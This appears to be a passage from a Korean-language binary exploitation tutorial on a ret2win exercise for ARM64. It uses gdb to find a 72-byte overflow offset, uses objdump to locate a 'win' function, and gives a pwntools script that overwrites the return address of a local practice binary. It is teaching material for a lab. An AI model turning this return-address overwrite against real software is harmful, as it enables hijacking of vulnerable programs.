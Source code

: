 이제 `read()` 이후에 중단점을 설정하고 `read()`가 실행될 때까지 계속 진행한 다음 13371337과 같은 패턴을 설정합니다:
```
b *vulnerable_function+28
c
```
<figure><img src="../../../.gitbook/assets/image (1208).png" alt=""><figcaption></figcaption></figure>

이 패턴이 메모리에 저장된 위치를 찾으세요:

<figure><img src="../../../.gitbook/assets/image (1209).png" alt=""><figcaption></figcaption></figure>

그런 다음: **`0xfffffffff148 - 0xfffffffff100 = 0x48 = 72`**

<figure><img src="../../../.gitbook/assets/image (1210).png" alt="" width="339"><figcaption></figcaption></figure>

## No PIE

### Regular

**`win`** 함수의 주소를 가져오세요:
```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```
익스플로잇:
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```